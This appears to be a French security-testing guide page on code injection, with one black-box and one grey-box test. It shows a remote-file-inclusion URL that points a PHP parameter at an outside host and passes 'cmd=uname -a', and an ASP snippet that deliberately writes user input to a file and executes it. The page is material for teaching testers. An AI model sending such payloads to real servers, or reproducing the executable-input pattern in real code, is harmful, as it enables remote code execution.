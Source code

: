 ## Sommaire

Cette section décrit comment un testeur peut vérifier s'il est possible
de saisir du code comme entrée sur une page web afin de le faire
exécuter par le serveur web.

Lors des tests d'injection de code ([Code
Injection](Code_Injection "wikilink")), un testeur envoie des entrées
qui seront traîtées par le serveur web comme du code dynamique ou des
fichiers inclus. Ces tests peuvent viser divers moteurs de scripts
serveur, par exemple ASP ou PHP. La protection contre ces attaques passe
par la validation des entrées et de bonnes pratiques de développement
sécurisé.

## Comment tester

### Test en boite noire

#### Tester les vulnérabilités d'injection PHP

En utilisant la chaîne de requête, le testeur peut injecter du code
(dans cet exemple, une URL malicieuse) qui sera traîté comme un fichier
inclus :

`http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a`

**Resultat attendu:**

L'URL malicieuse est acceptée comme paramètre pour la page PHP, qui va
utiliser plus tard cette valeur pour inclure le fichier.

### Test en boite grise

#### Tester les vulnérabilités d'injection de code ASP

Il faut examiner le code pour repérer les entrées utilisateur utilisées
pour exécuter des fonctions. L'utilisateur peut-il entrer dans commandes
dans un champ de saisie de données ? Ici, le code ASP va entregistrer
les entrées dans un fichier, puis les exécuter :

`<%`
`If not isEmpty(Request( "Data" ) ) Then`
`Dim fso, f`
`'User input Data is written to a file named data.txt`
`Set fso = CreateObject("Scripting.FileSystemObject")`
`Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)`
`f.Write Request("Data") & vbCrLf`
`f.close`
`Set f = nothing`
`Set fso = Nothing`

`'Data.txt is executed`
`Server.Execute( "data.txt" )`

`Else`
`%>`

<form>

<input name="Data" /><input type="submit" name="Enter Data" />

</form>

`<%`
`End If`
`%>)))`

## Références

  - Security Focus - <http://www.securityfocus.com>

<!-- end list -->

  - Insecure.org - <http://www.insecure.org>

<!-- end list -->

  - Wikipedia - <http://www.wikipedia.org>

<!-- end list -->

  - Reviewing Code for [OS Injection](OS_Injection "wikilink")